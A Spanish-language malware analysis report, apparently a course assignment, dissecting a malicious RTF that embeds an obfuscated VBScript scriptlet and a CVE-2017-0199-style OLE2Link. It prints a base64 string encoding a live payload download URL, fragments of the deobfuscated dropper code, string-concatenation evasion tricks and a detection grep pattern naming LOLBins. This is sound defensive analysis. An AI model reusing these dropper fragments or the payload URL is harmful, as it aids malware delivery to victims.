xxxxx

xxxxxxxxxxxx

CANDIDATO EN PROCESO

xxxxxxxxxxxxxx


# **1. Información general:**

<mark>El archivo es reconocido por `file` como un documento `Rich Text Format` válido. Esto confirma que la muestra mantiene estructura `RTF` y debe analizarse con herramientas específicas para `RTF/OLE`, como `rtfdump.py` y `oledump.py`.</mark>

El nombre del fichero coincide con su SHA-256, lo que facilita su trazabilidad durante el análisis:
```
MD5:     3c8de25fcd3746a65314c0747f981aa7
SHA-1:   c2c35b8e78b2afc44f9875126f79da2a5646717b
SHA-256: 9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e
```

Estos hashes permiten identificar de forma única la muestra, correlacionarla con otros análisis y documentarla como indicador de compromiso.


## **1.1 Análisis con VirusTotal**

https://www.virustotal.com/gui/file/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e


## **1.2 JoeSandBox**

https://www.joesandbox.com/analysis/800663/0/html

https://www.joesandbox.com/analysis/800663/0/pdf




## **1.3 Vmray**

https://www.vmray.com/analyses/9da7d051bdf0/report/overview.html


## **1.3 Tria.ge**

https://tria.ge/260522-qmlf3scs8k/behavioral1


-------

## **1.4 Script desofuscador universal**
El plugin [ghidra_ghidra_universal_string_deobfuscator.py](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/3-M9T3/utiles/scripts_ghidra/ghidra_universal_string_deobfuscator.py) ha sido útil porque confirma que el RTF contiene bloques hexadecimales ofuscados que, al decodificarse, revelan el script embebido. El análisis recorrió el rango completo cargado en memoria como ram, desde 00000000 hasta aproximadamente 00040552, y obtuvo estos resultados finales:

Este script devuelve:  





```
Hex runs decoded: 5
Strings extracted: 390
Interesting strings: 182
CSV written: /tmp/ghidra_rtf_hex_deobfuscation_.../decoded_strings.csv
```
Esto indica que el plugin localizó **5 regiones codificadas en hexadecimal dentro del RTF** y extrajo 390 cadenas, de las cuales **182 fueron consideradas relevantes** para el análisis.

**El desofuscador recuperó rutas y nombres asociados al objeto .SCT, por ejemplo:**
```
C:\jsdsDggf\AbctfhgXGdghgh
C:\kakepatH\Abctfhghgdghgh
```

**También aparecen marcas claras de un Windows Script Component:**
```
<scriptlet
<script language = "vbscript">
</script>
</scriptlet>
```

<mark>Esto confirma que el objeto embebido no es un fichero inocuo, sino un scriptlet VBScript ofuscado.</mark>


**Indicadores de ejecución dinámica:**
```
ExecuteGlobal
CreateObject
MacroVBSScript
WScript.Shell
Scripting.FileSystemObject
```
Estas cadenas son importantes porque muestran que el script <mark>reconstruye instrucciones en tiempo de ejecución y luego las ejecuta mediante ExecuteGlobal. Además, WScript.Shell permite lanzar comandos o procesos en Windows.</mark> 

**Indicadores de conexión y descarga:**
```
msxml2.xmlhttp.3.0
objhtxtpdownload.open
objhtxtpdownload.send
objhtxtpdownload.status
responsebody
```
Esto confirma la rama basada en MSXML2.XMLHTTP.3.0, donde el script <mark>realiza una petición HTTP, comprueba el estado de la respuesta y, si obtiene un estado válido, utiliza el contenido descargado.</mark>

**El script prepara una ruta local, comprueba si el fichero existe y puede guardar el contenido descargado en disco:**
```
ADODB.Stream
savetofile
strsaveto
fileexists(strsaveto)
```


-----

# **2. Análisis con ExifTool**

```
└─$ exiftool -a -u -g1 9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf > M9T6_eixftool.txt

---- ExifTool ----
ExifTool Version Number         : 13.50
Warning                         : Unspecified RTF encoding. Will assume Latin
---- System ----
File Name                       : 9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf
Directory                       : .
File Size                       : 264 kB
File Modification Date/Time     : 2020:11:11 12:09:38+01:00
File Access Date/Time           : 2026:05:25 16:16:22+02:00
File Inode Change Date/Time     : 2026:05:25 16:16:06+02:00
File Permissions                : -rw-rw-r--
---- File ----
File Type                       : RTF
File Type Extension             : rtf
MIME Type                       : text/rtf
---- RTF ----
Author                          : Cuenta Microsoft
Create Date                     : 2020:11:04 18:30:00
Author                          : Cuenta Microsoft
Modify Date                     : 2020:11:04 20:10:00
Last Printed                    : 0000:00:00 00:00:00
```

El análisis con ExifTool identifica esta muestra como un **documento RTF de 264 KB**. Los metadatos internos muestran como **autor “Cuenta Microsoft”, con fecha de creación el 04/11/2020 a las 18:30 y modificación el 04/11/2020 a las 20:10**. No se observaron metadatos ricos adicionales ni información directa sobre objetos embebidos. ExifTool mostró la advertencia **“Unspecified RTF encoding. Will assume Latin”**, lo que indica ausencia de declaración explícita de codificación en el documento.

La información obtenida mediante ExifTool es limitada. Sin embargo, confirma el tipo de fichero, tamaño, fechas internas y metadatos básicos, que sirven como punto de partida para el análisis estático. Debido a que los documentos RTF maliciosos suelen contener objetos OLE, exploits u objetos ofuscados.


# **3. Análisis estructural con rtfdump.py**
Analizamos la estructura interna del RTF, grupos, objetos, zonas hexadecimales largas y posible ofuscación:
```
└─$ python rtfdump.py ~/Escritorio/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf > ~/Escritorio/rtfdump-didier.txt 
``` 

De la salida obtenida destacamos:

## **3.1 Objeto \objdata:**
El análisis con `rtfdump.py` permitió identificar una **estructura RTF aparentemente válida**, con cabeceras y secciones habituales como tabla de fuentes, estilos, propiedades e información del documento. Sin embargo, **se localizó un objeto embebido en la entrada 77**, definido mediante `\object`, con subestructuras `\objw1` y `\pokedata`. El objeto aparece identificado como `Package` y presenta el nombre `AbctfhgXgdghgh\x9e.scT`, con un tamaño de `58.352 bytes` y hash MD5 `331c6ff42836efc5c6b3a6371f4c57da`.

<mark>La presencia de un objeto OLE empaquetado con un nombre aparentemente aleatorio y extensión .scT constituye un indicador sospechoso.</mark>
```
77 Level 2 ... \object
Name: b'Package\x00:AbctfhgXgdghgh\x9e.scT'
Size: 58352
md5: 331c6ff42836efc5c6b3a6371f4c57da
magic: 20e280a1
```


| Indicador                              | Interpretación                                                                              |
| -------------------------------------- | ------------------------------------------------------------------------------------------- |
| `Package`                              | Indica un objeto OLE empaquetado dentro del RTF.                                            |
| `AbctfhgXgdghgh`                       | Nombre aparentemente aleatorio o generado automáticamente.                                  |
| `\x9e`                                 | Byte no imprimible/no ASCII en el nombre.                                                   |
| `.scT`                                 | Extensión compatible con `.sct`, usada por Windows Script Component.                        |
| Tamaño `58352`                         | Objeto embebido suficientemente grande como para contener payload, script u otro artefacto. |
| MD5 `331c6ff42836efc5c6b3a6371f4c57da` | Hash del objeto extraído/identificado por `rtfdump.py`.                                     |


La extensión `.scT` no confirma por sí sola ejecución, pero es un indicador relevante porque los ficheros `.sct` se han usado habitualmente como scriptlets en cadenas de infección, por ejemplo junto con `regsvr32.exe/scrobj.dll`.

## **3.2 Remainder muy grande**
Adicionalmente, `rtfdump.py` reporta una sección Remainder de `189.410 bytes`, lo que indica la existencia de una cantidad significativa de datos fuera de la estructura RTF principal parseada. Este dato sugiere posible contenido añadido, ofuscación, estructura malformada o datos residuales que requieren ser analizados.


## **4. Extracción de objetos identificados**

```
┌──(venv-oletools)-[~/tools/didier-stevens]
└─$ FILE=~/Escritorio/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf
                                                                                                                                                     
┌──(venv-oletools)-[~/tools/didier-stevens]
└─$ python -m oletools.rtfobj "$FILE" | tee ~/Escritorio/M9T6_rtfobj.txt
rtfobj 0.60.1 on Python 3.13.12 - http://decalage.info/python/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

===============================================================================
File: '/home/xxniwexx/Escritorio/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf' - size: 263507 bytes
---+----------+---------------------------------------------------------------
id |index     |OLE Object                                                     
---+----------+---------------------------------------------------------------
0  |00003855h |format_id: 2 (Embedded)                                        
   |          |class name: b'Package'                                         
   |          |data size: 29454                                               
   |          |OLE Package object:                                            
   |          |Filename: 'AbctfhgXgdghgh\x9e.scT'                             
   |          |Source path: 'C:\\jsdsDggf\\AbctfhgXGdghgh\x9e.scT'            
   |          |Temp path = 'C:\\kakepatH\\Abctfhghgdghgh\x9e.scT'             
   |          |MD5 = '331c6ff42836efc5c6b3a6371f4c57da'                       
   |          |EXECUTABLE FILE                                                
   |          |File Type: Unknown file type                                   
---+----------+---------------------------------------------------------------
1  |000121CCh |format_id: 2 (Embedded)                                        
   |          |class name: b'OLE2LInk'                                        
   |          |data size: 2560                                                
   |          |MD5 = 'b95d048b6b05a9cb09d29d1b3a762da4'                       
   |          |CLSID: 00000300-0000-0000-C000-000000000046                    
   |          |StdOleLink (embedded OLE object - Known Related to             
   |          |CVE-2017-0199, CVE-2017-8570, CVE-2017-8759 or CVE-2018-8174)  
---+----------+---------------------------------------------------------------
2  |00013769h |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
3  |00013773h |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
4  |0001377Dh |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
5  |00013787h |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
6  |00013791h |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
7  |0001379Bh |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
8  |000137A5h |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
9  |000137AFh |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
10 |000137B9h |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
11 |000137C3h |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
12 |000137CDh |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
```


Para extraer los objetos:
```
└─$ mkdir -p ~/Escritorio/M9T6_rtfobj_extract
                                                                                                                                                     
┌──(venv-oletools)-[~/tools/didier-stevens]
└─$ python -m oletools.rtfobj -s all -d ~/Escritorio/M9T6_rtfobj_extract "$FILE"

rtfobj 0.60.1 on Python 3.13.12 - http://decalage.info/python/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

===============================================================================
File: '/home/xxniwexx/Escritorio/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf' - size: 263507 bytes
---+----------+---------------------------------------------------------------
id |index     |OLE Object                                                     
---+----------+---------------------------------------------------------------
0  |00003855h |format_id: 2 (Embedded)                                        
   |          |class name: b'Package'                                         
   |          |data size: 29454                                               
   |          |OLE Package object:                                            
   |          |Filename: 'AbctfhgXgdghgh\x9e.scT'                             
   |          |Source path: 'C:\\jsdsDggf\\AbctfhgXGdghgh\x9e.scT'            
   |          |Temp path = 'C:\\kakepatH\\Abctfhghgdghgh\x9e.scT'             
   |          |MD5 = '331c6ff42836efc5c6b3a6371f4c57da'                       
   |          |EXECUTABLE FILE                                                
   |          |File Type: Unknown file type                                   
---+----------+---------------------------------------------------------------
1  |000121CCh |format_id: 2 (Embedded)                                        
   |          |class name: b'OLE2LInk'                                        
   |          |data size: 2560                                                
   |          |MD5 = 'b95d048b6b05a9cb09d29d1b3a762da4'                       
   |          |CLSID: 00000300-0000-0000-C000-000000000046                    
   |          |StdOleLink (embedded OLE object - Known Related to             
   |          |CVE-2017-0199, CVE-2017-8570, CVE-2017-8759 or CVE-2018-8174)  
---+----------+---------------------------------------------------------------
2  |00013769h |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
3  |00013773h |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
4  |0001377Dh |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
5  |00013787h |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
6  |00013791h |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
7  |0001379Bh |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
8  |000137A5h |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
9  |000137AFh |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
10 |000137B9h |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
11 |000137C3h |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
12 |000137CDh |Not a well-formed OLE object                                   
---+----------+---------------------------------------------------------------
Saving file from OLE Package in object #0:
  Filename = 'AbctfhgXgdghgh\x9e.scT'
  Source path = 'C:\\jsdsDggf\\AbctfhgXGdghgh\x9e.scT'
  Temp path = 'C:\\kakepatH\\Abctfhghgdghgh\x9e.scT'
  saving to file /home/xxniwexx/Escritorio/M9T6_rtfobj_extract/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_AbctfhgXgdghgh_.scT
  md5 331c6ff42836efc5c6b3a6371f4c57da
Saving file embedded in OLE object #1:
  format_id  = 2
  class name = b'OLE2LInk'
  data size  = 2560
  saving to file /home/xxniwexx/Escritorio/M9T6_rtfobj_extract/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000121CC.bin
  md5 b95d048b6b05a9cb09d29d1b3a762da4
Saving raw data in object #2:
  saving object to file /home/xxniwexx/Escritorio/M9T6_rtfobj_extract/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013769.raw
  md5 d41d8cd98f00b204e9800998ecf8427e
Saving raw data in object #3:
  saving object to file /home/xxniwexx/Escritorio/M9T6_rtfobj_extract/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013773.raw
  md5 d41d8cd98f00b204e9800998ecf8427e
Saving raw data in object #4:
  saving object to file /home/xxniwexx/Escritorio/M9T6_rtfobj_extract/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_0001377D.raw
  md5 d41d8cd98f00b204e9800998ecf8427e
Saving raw data in object #5:
  saving object to file /home/xxniwexx/Escritorio/M9T6_rtfobj_extract/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013787.raw
  md5 d41d8cd98f00b204e9800998ecf8427e
Saving raw data in object #6:
  saving object to file /home/xxniwexx/Escritorio/M9T6_rtfobj_extract/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013791.raw
  md5 d41d8cd98f00b204e9800998ecf8427e
Saving raw data in object #7:
  saving object to file /home/xxniwexx/Escritorio/M9T6_rtfobj_extract/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_0001379B.raw
  md5 d41d8cd98f00b204e9800998ecf8427e
Saving raw data in object #8:
  saving object to file /home/xxniwexx/Escritorio/M9T6_rtfobj_extract/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137A5.raw
  md5 d41d8cd98f00b204e9800998ecf8427e
Saving raw data in object #9:
  saving object to file /home/xxniwexx/Escritorio/M9T6_rtfobj_extract/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137AF.raw
  md5 d41d8cd98f00b204e9800998ecf8427e
Saving raw data in object #10:
  saving object to file /home/xxniwexx/Escritorio/M9T6_rtfobj_extract/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137B9.raw
  md5 d41d8cd98f00b204e9800998ecf8427e
Saving raw data in object #11:
  saving object to file /home/xxniwexx/Escritorio/M9T6_rtfobj_extract/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137C3.raw
  md5 d41d8cd98f00b204e9800998ecf8427e
Saving raw data in object #12:
  saving object to file /home/xxniwexx/Escritorio/M9T6_rtfobj_extract/9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137CD.raw
  md5 51d9a02a89e07aebf64b382de1284999
 
```




------


# **5. Triage de los ficheros extraidos**


## **5.1 Identificamos tipos de ficheros extraidos**
```
└─$ file *                                 
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_AbctfhgXgdghgh_.scT: data
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000121CC.bin: Composite Document File V2 Document, Cannot read section info
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137A5.raw: empty
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137AF.raw: empty
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137B9.raw: empty
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137C3.raw: empty
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137CD.raw: ctab data
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_0001377D.raw: empty
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_0001379B.raw: empty
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013769.raw: empty
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013773.raw: empty
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013787.raw: empty
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013791.raw: empty

```

## **5.2 Calculamos hashes completos**
```
└─$ md5sum *                                 
331c6ff42836efc5c6b3a6371f4c57da  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_AbctfhgXgdghgh_.scT
b95d048b6b05a9cb09d29d1b3a762da4  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000121CC.bin
d41d8cd98f00b204e9800998ecf8427e  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137A5.raw
d41d8cd98f00b204e9800998ecf8427e  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137AF.raw
d41d8cd98f00b204e9800998ecf8427e  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137B9.raw
d41d8cd98f00b204e9800998ecf8427e  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137C3.raw
51d9a02a89e07aebf64b382de1284999  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137CD.raw
d41d8cd98f00b204e9800998ecf8427e  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_0001377D.raw
d41d8cd98f00b204e9800998ecf8427e  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_0001379B.raw
d41d8cd98f00b204e9800998ecf8427e  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013769.raw
d41d8cd98f00b204e9800998ecf8427e  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013773.raw
d41d8cd98f00b204e9800998ecf8427e  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013787.raw
d41d8cd98f00b204e9800998ecf8427e  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013791.raw
``` 


```
└─$ sha256sum *
2074f16be50c73280c3a29ed81595884f703c5eea269f771d9cdc39fd9daaee1  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_AbctfhgXgdghgh_.scT
e0b80342429c3ac17ba3823aa5651e507c5cd6b8b3255c3dd5a795e9cc5b3e10  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000121CC.bin
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137A5.raw
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137AF.raw
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137B9.raw
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137C3.raw
c82b14168a11b2a6c2ffffb56a2145cdc03b85ac4b1ea43375e42bf801e53725  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000137CD.raw
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_0001377D.raw
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_0001379B.raw
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013769.raw
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013773.raw
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013787.raw
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855  9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_00013791.raw
```


# **6. Ofuscación de la muestra**

Antes de realizar la correlación de cadenas por fichero, analizamos el grado de ofuscación presente. El objetivo de este apartado es identificar qué técnicas utiliza el documento RTF para ocultar su funcionalidad y qué procedimientos se aplicaron para recuperar el contenido malicioso de forma segura.

La muestra M9T6 presenta varias capas de ofuscación. En primer lugar, el documento RTF contiene objetos embebidos en formato OLE, entre ellos un objeto Package que almacena un fichero con extensión `.scT` y un objeto `OLE2Link`. Esta estructura permite que el contenido malicioso no aparezca directamente como texto visible dentro del RTF, sino encapsulado en bloques internos que requieren herramientas específicas para ser interpretados.

Una de las primeras evidencias de ofuscación se observó en el nombre del objeto embebido:
```
AbctfhgXgdghgh\x9e.scT
```
El nombre parece generado automáticamente, incluye una extensión `.scT` con mezcla de mayúsculas y minúsculas, y contiene un byte no imprimible `(\x9e)`. Este tipo de nomenclatura dificulta la identificación manual del artefacto y puede interferir con herramientas simples de análisis.

Además, el script extraído no aparece como un `VBScript` limpio. En su lugar, contiene cadenas fragmentadas, variables con nombres aleatorios, texto basura, comentarios irrelevantes y ejecución dinámica de código mediante ExecuteGlobal. Por ejemplo, llamadas como `CreateObject`, `WScript.Shell`, `MSXML2.XMLHTTP.3.0` o `ADODB.Stream` no siempre aparecen escritas directamente, sino reconstruidas mediante concatenación de cadenas:
```
"Create" + "Object"
"WSc" + "ript" + "." + "Sh" + "ell"
"msxm" + "l2" + ".xml" + "http.3.0"
```


Esta técnica evita que una búsqueda directa de cadenas detecte todos los indicadores de forma inmediata.

También se identificó el uso de Base64 para ocultar datos relevantes. En concreto, la URL remota y el nombre del payload estaban codificados y fueron reconstruidos durante el análisis:
```
aHR0UDovL2VkZHlob2xkaW5nc2h1dHRsZS5jby56YS9pL3hwZXJ0ZWUuZXhl
→ hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe

eHBlcnRlZS5leGU=
→ xpertee[.]exe
```

El script incluye una función de decodificación que utiliza Msxml2.DOMDocument para tratar los datos Base64 y ADODB.Stream para convertir los bytes resultantes a texto. Esta técnica permite ocultar indicadores de red y nombres de fichero hasta el momento de ejecución.

## **6.1 Técnicas de desofuscación aplicadas**
Para recuperar el contenido útil de la muestra se siguió un proceso progresivo. Primero se utilizó `rtfdump.py` para inspeccionar la estructura interna del documento RTF y localizar objetos, bloques sospechosos y datos remanentes. Esta fase permitió identificar la presencia de un objeto Package asociado a un fichero .scT. Posteriormente se empleó `rtfobj` para extraer los objetos OLE embebidos. A continuación se utilizó un plugin desofuscador en Ghidra para localizar y decodificar bloques hexadecimales presentes en el RTF.

## **6.2 Técnicas de ofuscación identificadas**
| Técnica                  | Evidencia                                                | Finalidad                                          |
| ------------------------ | -------------------------------------------------------- | -------------------------------------------------- |
| Encapsulado OLE          | Objetos `Package` y `OLE2Link` embebidos                 | Ocultar el script dentro del RTF                   |
| Nombre aleatorio         | `AbctfhgXgdghgh\x9e.scT`                                 | Dificultar identificación manual                   |
| Bytes no imprimibles     | `\x9e` en el nombre del fichero                          | Romper parsing o búsquedas simples                 |
| Concatenación de cadenas | `"Create" + "Object"`                                    | Evadir detección por cadenas literales             |
| Ejecución dinámica       | `ExecuteGlobal(...)`                                     | Construir y ejecutar código en tiempo de ejecución |
| Base64                   | URL y nombre del payload codificados                     | Ocultar IoCs de red y fichero                      |
| Texto basura             | Frases irrelevantes y comentarios aleatorios             | Aumentar ruido y dificultar lectura                |
| Variables aleatorias     | `uqredvgyd`, `yulkytjtrhtjrkdsarjky`, `objhtxtpdownload` | Reducir legibilidad del código                     |
| Uso de objetos COM       | `WScript.Shell`, `MSXML2.XMLHTTP.3.0`, `ADODB.Stream`    | Descargar, escribir y ejecutar payload             |
| Duplicación de bloques   | Declaraciones repetidas y constantes de comandos         | Introducir ruido en el análisis estático           |


Tras aplicar estas técnicas, se pudo reconstruir la lógica principal del script. El .scT contiene un scriptlet VBScript ofuscado que decodifica una URL remota, construye una ruta de guardado en %APPDATA%, descarga el fichero xpertee.exe y prepara su ejecución mediante WScript.Shell y PowerShell.

En conclusión, la muestra utiliza una combinación de ofuscación estructural, textual y lógica. La ofuscación estructural se basa en esconder el script dentro de objetos OLE embebidos; la textual, en fragmentar cadenas y añadir ruido; y la lógica, en reconstruir y ejecutar instrucciones mediante ExecuteGlobal. La desofuscación permitió transformar estos fragmentos en una cadena de comportamiento comprensible, confirmando que el documento RTF contiene un script embebido orientado a la descarga y ejecución de un payload remoto.


# **7. Correlación de cadenas**
Para correlacionar los indicadores encontrados con el fichero del que proceden, se accedió al directorio donde fueron extraídos los objetos mediante `rtfobj` y se aplicó una búsqueda de cadenas sospechosas sobre cada archivo. A diferencia de una búsqueda global con `strings -a *`, este procedimiento permite **identificar qué artefacto concreto contiene cada indicador**, facilitando la atribución de comportamiento al objeto correspondiente.
```
cd ~/Escritorio/M9T6_rtfobj_extract

PATTERN='http|https|cmd|powershell|wscript|cscript|regsvr32|scrobj|mshta|rundll32|\.exe|\.dll|\.sct|scriptlet|ActiveX|CreateObject|Shell|ExecuteGlobal|WScript\.Shell'

{
  echo "# Indicadores por fichero - M9T6"
  echo
  echo '```text'
  for f in *; do
    [ -f "$f" ] || continue
    strings -a -n 4 "$f" \
      | grep -aniE --color=never "$PATTERN" \
      | sed "s|^|$f:|"
  done
  echo '```'
} > ../M9T6_indicadores_por_fichero.md
```

Obtenemos:
```
9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf_object_000121CC.bin:2:.SCT
salida.vbs:4:    ExecuteGlobal(obj)
salida.vbs:19:    ExecuteGlobal("Set alxmd = " + cvbnm + "(""Msxml2.DOMDocument"").CreateElement(""aux"")")
salida.vbs:20:    ExecuteGlobal("alxmd.Data" + "Type = itype")
salida.vbs:38:        ExecuteGlobal("Set baax = " + piiing + "(aaax)")
salida.vbs:50:            ExecuteGlobal("baax.Close")
salida.vbs:56:dim shellobj  '292821
salida.vbs:70:ExecuteGlobal(pisj  + vbCrLf + "se" + "t shellobj = Create" + "Object(ywrjjjjjjjjjjjjwty)")
salida.vbs:75:ExecuteGlobal("call age64Dicode(""QWxsRmF0YSA9IHNoZWxsb2JqLmV4cGFuZEVudml" + "yb25tZW50U3RyaW5ncygiICUgQVBQRCIgKyAiQVRBICVcIik="",False)")
salida.vbs:86:uqredvgyd = uqredvgyd + ".xml" + "http.3.0"
salida.vbs:202:    ExecuteGlobal("Set objFSO   = Create" + "Object( ""Scripting.FileSystemObject"" ) ")
salida.vbs:203:    ExecuteGlobal("Set wshShell = Create" + "Object( ""Wscript.Shell"" ) ")
salida.vbs:204:    offififii = ExecuteGlobal("objfsodownload." + "file" + "exists(strsaveto)")    
salida.vbs:213:ExecuteGlobal("set objhtxtpdownload = create" + "object(uqredvgyd)")
salida.vbs:217:ExecuteGlobal("anny" + " = f" + "alse")
salida.vbs:221:ExecuteGlobal(yoha)
salida.vbs:222:ExecuteGlobal("dim sfo")
salida.vbs:228:ExecuteGlobal("set objfsodownload = create" + "object(sfo)") '292821
salida.vbs:231:ExecuteGlobal("bicodo = bicodo + oofofs + mmgcb + osdv")
salida.vbs:233:onononono = ExecuteGlobal("objfsodownload." + "file" + "exists(strsaveto)")
salida.vbs:234:ExecuteGlobal("bvbvbvbbvbvbvbvbvb = objhtxtpdownload.status")
salida.vbs:236:ExecuteGlobal("varrya = age64Dicode(fsdfdsfs, F" + "alse)")
salida.vbs:237:ExecuteGlobal("varryb = age64Dicode(yulkytjtrhtjrkdsarjky, F" + "alse)")
